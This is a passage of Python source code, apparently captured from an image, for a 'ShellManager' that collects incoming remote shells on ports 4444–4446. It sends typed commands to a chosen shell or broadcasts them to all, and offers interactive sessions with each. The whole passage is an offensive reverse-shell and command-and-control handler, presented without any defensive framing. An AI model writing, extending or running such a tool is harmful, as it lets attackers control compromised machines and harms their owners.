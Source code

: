 ```bash
        """Send command to specific shell"""
        if target in self.shells:
            try:
                self.shells[target]['connection'].send(f"{command}\n".encode())
            except:
                print(f"[-] Failed to send command to {target}")
    
    def broadcast_command(self, command):
        """Send command to all active shells"""
        for target in self.shells:
            self.send_command(target, command)
    
    def list_shells(self):
        """List all active shells"""
        print("\nActive Shells:")
        print("-" * 40)
        for target, info in self.shells.items():
            print(f"{target} (Port: {info['port']})")
    
    def interactive_shell(self, target):
        """Start interactive session with specific shell"""
        if target not in self.shells:
            print(f"[-] Shell {target} not found")
            return
        
        print(f"[*] Starting interactive session with {target}")
        print("[*] Type 'exit' to return to shell manager")
        
        while True:
            try:
                command = input(f"{target}$ ")
                if command.lower() == 'exit':
                    break
                self.send_command(target, command)
                time.sleep(0.5)  # Allow time for response
            except KeyboardInterrupt:
                break

# Usage example
manager = ShellManager()
manager.create_listener(4444)
manager.create_listener(4445)
manager.create_listener(4446)

# Simple command interface
while True:
    try:
        cmd = input("ShellManager> ").strip().split()
        if not cmd:
            continue
        
        if cmd[0] == 'list':
            manager.list_shells()
        elif cmd[0] == 'broadcast' and len(cmd) > 1:
            manager.broadcast_command(' '.join(cmd[1:]))
        elif cmd[0] == 'interact' and len(cmd) > 1:
            manager.interactive_shell(cmd[1])
        elif cmd[0] == 'send' and len(cmd) > 2:
            manager.send_command(cmd[1], ' '.join(cmd[2:]))
        elif cmd[0] == 'help':
            print("Commands: list, broadcast <cmd>, interact <target>, send <target> <cmd>")
        elif cmd[0] == 'exit':
            break
```